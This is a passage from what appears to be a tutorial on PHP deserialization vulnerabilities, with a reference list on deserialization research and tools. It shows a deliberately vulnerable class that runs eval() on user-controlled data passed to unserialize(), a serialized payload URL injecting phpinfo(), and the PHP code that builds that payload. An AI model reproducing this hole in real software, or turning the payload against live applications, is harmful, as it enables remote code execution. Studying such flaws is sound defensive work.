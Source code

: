 However, here is another class `Evil` with a `goodbye()` function containing one of the most dangerous functions `eval()`. 

```php
class Evil {
    var $bye_message;
    function goodbye() {
        eval($this->bye_message);
    }
}

unserialize($_GET['test']);
```

This function reads a string, treat it as a code snippet, and execute it without any examination. **Under no circumstances should it be used in code**.

Since we can pass in our data through the GET parameter, it is a wise decision to simply create a `merc` object that calls `goodbye()` function of class `Evil`. Our payload is given below, where we put serialized data into the GET parameter test.

```
http://url/?test=O:4:"merc":1:{s:4:"test";O:4:"Evil":1:{s:11:"bye_message";s:10:"phpinfo();";}}
```

Next, we are going to show how the payload is constructed.

```php
<?php

class merc {
    public $test;
    function __construct() {
        $this->test = new Evil();
    }
}

class Evil {
    var $bye_message = "phpinfo();";
}

$object = new merc();
echo serialize($object);
```

The payload is actually generated by writing PHP code, in which we initialized the attribute `test` to be an instance of class `Evil`, and modified `$bye_message` of `test` to be `phpinfo()`, a function in PHP.

If this function is called, we'll see a page similar to Figure 1, proving that we have an RCE now.


[^1]: [RFC 1014](https://tools.ietf.org/html/rfc1014)
[^2]: [Serialization and Deserialization](https://juejin.cn/post/6844903765921808397)
[^3]: [Dialysis of Java Deserialization Algorithm](https://www.iteye.com/blog/longdick-458557)
[^4]: [Understanding PHP Deserialization Vulnerability in One Article](https://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E)
[^5]: [CVE-2016-7124](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124)
[^6]: [Learning Various Exploiting Techniques of PHP Deserialization Vulnerability through CTF](https://xz.aliyun.com/t/7570)
[^7]: [Principle of Java Deserialization Vulnerability](https://xz.aliyun.com/t/6787)
[^8]: [Mastering Java Deserialization Vulnerability](https://xz.aliyun.com/t/2041)
[^9]: [ysoserial](https://github.com/frohoff/ysoserial)
[^10]: [marshalsec](https://github.com/mbechler/marshalsec)
[^11]: [JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
[^12]: [SerialKiller](https://github.com/ikkisoft/SerialKiller)
[^13]: [contrast-rO0](https://github.com/Contrast-Security-OSS/contrast-rO0)
[^14]: [Thinking about gRPC: Why Protobuf](http://hengyunabc.github.io/thinking-about-grpc-protobuf/)
